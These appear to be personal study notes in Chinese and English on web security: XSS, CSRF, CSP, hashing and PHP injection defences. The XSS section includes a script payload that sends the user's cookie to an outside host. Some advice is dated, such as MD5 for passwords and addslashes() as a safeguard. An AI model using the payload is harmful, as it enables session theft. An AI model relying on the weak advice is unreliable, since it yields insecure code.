# 安全原则
1. data confidentiality: 数据保密
2. data integrity: 数据完整
3. System availability: 系统可用


# XSS (Cross site scripting) 跨站脚本攻击
## 是什么
- 攻击者利用 XSS 漏洞向网站中传入恶意代码，用户访问时，代码会自动执行

```js
//在 A 网站注入下面代码，B 网站会拿到用户在 A 网站的 cookie
<script>window.open("www.b.com?param="+document.cookie)</script>
```

## 怎么办
- 服务端渲染出来的时候，要对 html 进行 encode


# CSRF (Cross-site request forgery) 跨站请求伪造
## 是什么
- 用户登陆 A 网站 ，浏览器有 A 的 cookie，然后登陆 B 网站，B 网站可以诱导用户向 A 网站提交请求，因为已经有了 A 的 cookie，所以请求会被接受

## 怎么办
1. http 请求的 header 里面有一个 referer，里面保存请求的源地址，通过验证源地址来判断
2. 可以在网站表单中加入一个随机的 token，通过验证 token 来判断


# CSP (Content Security Policy)
## 是什么
**简单来说就是一种白名单机制，只有来自于可信任的域名的文件，才会被加载**
CSP的主要目标是减少和报告XSS攻击，XSS攻击利用浏览器对从服务器接受的内容的信任。
恶意的脚本在受害的浏览器被执行, 因为浏览器相信内容源，甚至当内容源并不是从它应该来的地方过来的。
CSP使服务器管理员能够通过制定浏览器能够执行的可信赖脚本的域名来减少或者消除由XSS可能出现的矢量。
一个兼容CSP的浏览器将只会执行加载与白名单域名的源文件的脚本，忽略那些其他的脚本（包括内联脚本和事件操控HTML属性）

## 怎么用
1. http 头部的 ` Content-Security-Policy `
    - 如果使用 http 的 header，可以通过设置 `report-uri` 来记录违背策略的请求操作
    - e.g ` Content-Security-Policy: default-src self; report-uri http://reportcollector.example.com/collector.cgi `
    - 错误信息会用 POST 请求以 JSON 的方式发送至制定的服务器
2. mata tag


# Hash (散列)
- like a finger print
- 一组输入，通过**散列函数**，得到一组固定长度的输出，
- 输入不同，输出也不同，
- 是一种从任何一种数据中创建小的数字“指纹”的方法
- 可以用来加密存储在数据库的密码
- 常用函数 MD5

# PHP prevent SQL injection
1. use place holder in the query 
    - `select * from table where id=?`
    - all the input are seen as one, so it's safe
2. add_slashes() and add quote in the parameter
    - `select * from table where id='{$_GET['id']}'`
    - quote is needed because if someone want to inject, they must close the single quote, 
    but with the add_slashes(), they can not close the single quote so it's safe.
    
# Prevent XSS for PHP
1. clean input
    - addslashes()
2. clean output
    - htmlspecialchar()


# Ref
- [https://segmentfault.com/a/1190000007932293](https://segmentfault.com/a/1190000007932293)
- [http://www.ruanyifeng.com/blog/2016/09/csp.html](http://www.ruanyifeng.com/blog/2016/09/csp.html)
- [https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/Introducing_Content_Security_Policy](https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/Introducing_Content_Security_Policy)
- [https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/Using_CSP_violation_reports](https://developer.mozilla.org/zh-CN/docs/Web/Security/CSP/Using_CSP_violation_reports)